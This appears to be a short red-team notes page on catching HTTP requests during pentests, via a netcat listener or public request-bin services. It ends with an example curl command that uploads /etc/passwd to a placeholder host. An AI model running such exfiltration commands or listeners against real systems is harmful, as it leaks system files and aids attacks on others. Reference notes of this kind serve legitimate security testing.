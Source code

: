 # Request Grabber

<div class="row row-cols-lg-2"><div>

During pentesting activies, we may want to catch HTTP requests, such as during a CSRF attack or a XSS attack.

If our machine is within the same network, we can use `nc`:

```shell!
$ nc -lnvp PORT
<send request to YOUR_PUBLIC_IP:PORT>
```

We can use [responder](/cybersecurity/red-team/tools/utilities/networking/responder.md) for Windows Authentication Requests.
</div><div>

We may use online public solutions such as API Testing Platforms:

* [requestbin](https://public.requestbin.com/r/) <small>(HTTP 🌍)</small>
* [postbin](https://www.toptal.com/developers/postbin/) <small>(HTTP 🌍)</small>
* [ngrok](https://ngrok.com/) <small>(HTTP 🌍 and TCP ⭐, account required 🪦)</small>
* [requestinspector](https://requestinspector.com/) <small>(HTTP 🌍)</small>
* [beeceptor](https://beeceptor.com/) <small>(HTTP 🌍)</small>
* [pastebin](https://pastebin.com/) <small>(HTTP + UPLOAD 🌍, use URL to raw file after upload)</small>
* [github.io](https://pages.github.com/) <small>(HTTP + UPLOAD 🌍, account required 🪦)</small>
* ...

```ps
$ curl http://XXX/xxxxxx -F "data=@/etc/passwd"
```
</div></div>
